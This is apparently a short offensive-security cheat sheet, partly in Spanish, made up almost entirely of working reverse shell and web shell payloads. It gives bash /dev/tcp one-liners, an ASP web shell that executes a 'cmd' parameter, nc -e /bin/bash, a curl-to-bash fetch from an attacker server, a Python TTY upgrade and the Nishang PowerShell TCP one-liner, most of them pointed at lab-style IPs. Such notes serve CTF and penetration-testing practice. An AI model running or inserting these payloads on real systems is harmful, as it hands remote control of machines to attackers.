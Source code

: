 ```bash

bash -c "bash -i >%26 /dev/tcp/IP/port 0>%261"
bash -c "bash -i >& /dev/tcp/IP/port 0>&1"

```
***ASP*** simple shell

```
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>

http://10.129.228.122/upload/shell.asp?cmd=whoami

```

### Python Fully TTY

> https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys

````python 

python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;

````

Con nc si es que existe en la maquina enviate una reverseshell

```
nc 10.90.60.80 4444 -e /bin/bash
```

Puedes usar curl para ejecutar una shell reversa aprovechandote de curl:

```
#index.html
# python3 -m http.server 80
#!/bin/bash

bash -i >& /dev/tcp/IP/port 0>&1

#target

curl http:/10.10.14.57/ |bash


```

Powershell one liner Invoke-PowerShellTcpOneLine.ps de Nishang

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
